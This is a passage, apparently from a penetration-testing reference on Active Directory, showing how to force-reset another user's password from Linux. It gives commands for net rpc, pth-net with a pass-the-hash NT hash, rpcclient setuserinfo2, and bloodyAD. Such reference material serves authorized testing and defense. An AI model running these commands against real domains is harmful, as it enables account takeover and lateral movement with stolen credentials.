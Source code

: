 
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](https://www.thehacker.recipes/ad/movement/ntlm/pth).

```sh
# With net and cleartext credentials (will be prompted)
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

# With net and cleartext credentials
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

# With Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```sh
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```sh
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p '$PASSWORD' set password "$TargetUser" '$NewPassword'
```